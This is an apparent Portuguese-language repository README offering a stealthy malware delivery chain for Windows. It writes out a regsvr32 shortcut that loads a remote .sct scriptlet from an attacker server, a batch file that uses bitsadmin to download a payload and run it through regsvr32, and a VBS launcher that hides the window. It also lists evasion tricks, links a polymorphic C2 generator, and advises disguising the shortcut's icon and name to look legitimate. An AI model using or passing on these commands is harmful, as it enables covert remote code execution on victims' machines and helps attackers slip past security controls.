# Técnica de Execução Stealth para Scripts PowerShell

Este repositório demonstra técnicas avançadas para executar scripts PowerShell de maneira furtiva, contornando controles de segurança comuns. A implementação utiliza binários legítimos do Windows, transferência de arquivos em segundo plano e ofuscação para evitar detecção.

## Visão Geral

Esta técnica pode ser implementada de várias formas, incluindo o uso do regsvr32.exe para scriptlets (.sct) ou utilizando BITS (Background Intelligent Transfer Service), um serviço legítimo do Windows usado para downloads em segundo plano.

## Gerar o C2 em PS1
https://github.com/ticofookfook/C2-polimorfico

## Componentes e Técnicas

### 1. Técnica baseada em regsvr32 (SCT)

O ponto de entrada é um atalho do Windows com as seguintes propriedades:
```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
````

###O arquivo SCT (Scriptlet) contém código JScript ofuscado com múltiplas técnicas de evasão.

Execução via script BAT e VBS
### Criar arquivo batch
@echo off
rem Executar silenciosamente
bitsadmin /transfer myDownloadJob /download /priority high http://[ip-servidor]/[nome-script].sct "%TEMP%\data.tmp" > nul
regsvr32 /s /u /i:"%TEMP%\data.tmp" scrobj.dll
exit

Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "cmd.exe /c ""%TEMP%\config.bat""", 0, False

###3. Técnicas de Evasão
A implementação usa múltiplas camadas de evasão:

Inversão de Strings: Strings como "powershell.exe" são armazenadas invertidas

Conversão de Código de Caracteres: Strings críticas construídas a partir de códigos ASCII

Expansão de Variáveis de Ambiente: Construção dinâmica de caminhos do sistema

Uso de Serviços Legítimos: BITS é um componente do Windows usado para Windows Update

4. Cadeia de Execução
A cadeia completa de execução usando BITS:

Usuário clica no atalho

wscript.exe executa o .vbs em segundo plano

O .vbs chama cmd.exe para rodar o .bat sem exibição de janela

O batch executa o bitsadmin para baixar o payload

regsvr32 carrega o payload baixado

Conteúdo é executado sem criar janelas visíveis

###Uso
Hospede o arquivo .sct em um servidor HTTP

Hospede seu payload PowerShell como "teste.ps1" no mesmo servidor

Crie o atalho para o script VBS em vez do BAT

O ícone e o nome do atalho podem ser personalizados para parecerem legítimos

Detalhes Técnicos
BITSAdmin
Ferramenta nativa do Windows para gerenciar o serviço BITS

Raramente bloqueada por soluções de segurança por ser essencial para o Windows Update

Permite downloads em segundo plano com alta confiabilidade

regsvr32
/s: Execução silenciosa (sem diálogos)

/u: Desregistra componente (usado como parte da técnica)

/i:<URL>: Especifica o script a ser carregado

scrobj.dll: O Script Component Runtime que processa o scriptlet

Considerações de Segurança
Esta técnica é eficaz em contornar controles de segurança porque:

Utiliza binários confiáveis do Windows (técnica living-off-the-land)

BITS é um serviço essencial raramente bloqueado

Comandos fragmentados e ofuscados previnem detecção

A execução ocorre totalmente em segundo plano sem janelas visíveis

Utiliza métodos de transferência legítimos usados pelo próprio Windows
